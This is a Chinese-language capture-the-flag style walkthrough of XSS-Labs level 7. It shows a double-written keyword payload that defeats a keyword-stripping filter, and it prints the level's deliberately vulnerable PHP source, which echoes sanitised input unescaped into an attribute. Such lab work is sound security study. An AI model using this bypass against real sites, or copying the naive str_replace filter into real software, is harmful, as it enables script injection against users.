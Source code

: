 ### 双写绕过

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第七关**

继续使用上一关的 payload 发现整个 `hRef` 被删除以及删除了 `script`

![](https://pic1.imgdb.cn/item/681389a158cb8da5c8d63901.png)

推测是不区分大小写，尝试双写关键字

```
"> <a hRhRefef=javascrscriptipt:alert()>雾島风起時</a> <"
```

点击后弹窗

![](https://pic1.imgdb.cn/item/68138a8a58cb8da5c8d63973.png)

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level8.php?keyword=nice try!"; 
}
</script>
<title>欢迎来到level7</title>
</head>
<body>
<h1 align=center>欢迎来到level7</h1>
<?php 
ini_set("display_errors", 0);
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level7.php method=GET>
<input name=keyword  value="'.$str6.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
<center><img src=level7.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
?>
</body>
</html>
```

